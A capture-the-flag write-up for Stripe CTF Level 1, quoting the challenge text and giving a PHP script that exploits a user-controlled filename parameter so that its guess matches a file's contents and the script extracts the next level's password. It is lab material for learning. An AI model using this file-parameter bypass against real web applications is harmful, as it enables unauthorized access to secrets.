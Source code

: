 ## Level 1

Excellent, you are now on Level 1, the Guessing Game. All you have to do is guess the combination correctly, and you'll be given the password to access Level 2! We've been assured that this level has no security vulnerabilities in it (and the machine running the Guessing Game has no outbound network connectivity, meaning you wouldn't be able to extract the password anyway), so you'll probably just have to try all the possible combinations. Or will you...?

You can play the Guessing Game at https://level01-1.stripe-ctf.com/user-xxxxxxxxxx. The code for the Game can be obtained from `git clone https://level01-1.stripe-ctf.com/user-xxxxxxxxxx/level01-code`, and is also included below.

### Running

- Put `index.php` on a server somewhere with the two `.txt` files in the same directory.

### Solution

```php
#!/usr/bin/env php
<?php

$endpoint = "https://level01-1.stripe-ctf.com/user-xxxxxxxxxx/";
$url = "$endpoint?filename=index.php&attempt=" . urlencode(trim(file_get_contents("index.php")));

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$result = curl_exec($ch);
curl_close($ch);

if (preg_match('/password to the access Level 2: ([a-zA-Z]+)<\/p>/', $result, /*&*/$matches) && !empty($matches[1])) {
  echo $matches[1] . "\n";
}
```

Originally posted at [https://stripe-ctf.com/levels/1](https://stripe-ctf.com/levels/1).
